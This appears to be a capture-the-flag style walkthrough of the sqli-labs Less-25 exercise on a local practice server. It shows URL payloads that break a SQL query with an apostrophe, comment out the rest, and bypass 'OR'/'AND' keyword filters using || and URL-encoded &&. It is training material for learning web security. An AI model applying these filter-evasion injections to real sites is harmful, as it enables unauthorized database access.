

OR & AND Filters
a) Tryung to pass it adding an apostrophe or a slash.
URL: http://localhost/sqli-labs-php7-master/Less-25/?id=1%27
Result: There's a SQL error.
The query would be the following.
select * from table where id = ' $id ' LIMITS 0,1;
b) Let's fix the query.
URL: http://localhost/sqli-labs-php7-master/Less-25/?id=1%27%20--+
Result: We bypassed the filter. We got the left side of the injection “'”, the right side of the injection “--+”.
Everything in between will be executable.
c) Let's use “OR 1=1”.
URL: http://localhost/sqli-labs-php7-master/Less-25/?id=1%27%20OR%201=1%20--+

Result: It doen't work. If you see on the Hint message the “OR” operator has been filtered.
d) Now we're going to use an “OR”.
In programming another way of representing “OR” is by using a “double pipe (||)”. So let's use it.
URL: http://localhost/sqli-labs-php7-master/Less-25/?id=1%27%20||%201=1%20--+
Result: It works.
e) Now we're going to use an “AND”.
“AND” is represented by “&&”.
URL: http://localhost/sqli-labs-php7-master/Less-25/?id=1%27%20&&%201=1%20--+

Result: There's an error. The Hint says the “&&” aren't passed through. This is because we have to take into account the URL endoding.
You can look up on the Internet URL encoders and figure out whats the code for “&”. After that you'll see it's “%26”.
Then you should change the “&” by the code in your URL. http://localhost/sqli-labs-php7-master/Less-25/?id=1%27%20%26%26%201=1%20--+

Result: It works.